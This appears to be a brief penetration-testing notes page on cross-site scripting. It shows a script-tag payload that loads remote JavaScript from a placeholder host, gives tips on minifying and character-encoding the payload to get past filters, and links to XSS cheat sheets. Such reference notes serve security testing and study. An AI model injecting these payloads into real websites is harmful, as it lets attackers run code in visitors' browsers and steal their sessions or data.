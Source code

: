 # XSS - Cross site scripting

### Remote JavaScript include

```text
<script src="http://domain.com/remote.js"></script>
```

 Depending on the context and length of the payload, it can sometimes be minified, encoded and submitted directly in the request.

Minifier tool: [https://javascript-minifier.com/](https://javascript-minifier.com/)

Character code encoding:[https://eve.gd/2007/05/23/string-fromcharcode-encoder/](https://eve.gd/2007/05/23/string-fromcharcode-encoder/)

Great resources:

{% embed url="https://portswigger.net/web-security/cross-site-scripting/cheat-sheet" caption="" %}

\[Payloadsallthethings XSS Cheatsheet\]\("[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS) Injection" "Payloads all the things XSS cheatsheet"\)

